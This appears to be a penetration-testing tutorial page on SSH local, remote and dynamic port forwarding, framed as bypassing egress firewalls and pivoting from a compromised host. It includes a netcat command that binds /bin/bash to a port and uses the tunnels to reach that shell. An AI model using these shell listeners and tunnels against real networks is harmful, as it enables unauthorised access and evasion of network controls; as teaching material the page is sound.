 ```yaml
---
description: Exploring SSH tunneling
---
```


# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access, but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999 or 10.0.0.5:9999\) and forward it all that to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins

![](../../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port to the host you want to connect to.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host that runs the service that is only accessible from inside that host.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me. Once it gets a response, please send that data back to me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% hint style="info" %}
Dynamic port forwarding plays along nicely with ProxyChains.
{% endhint %}

## References

{% embed url="https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html" %}



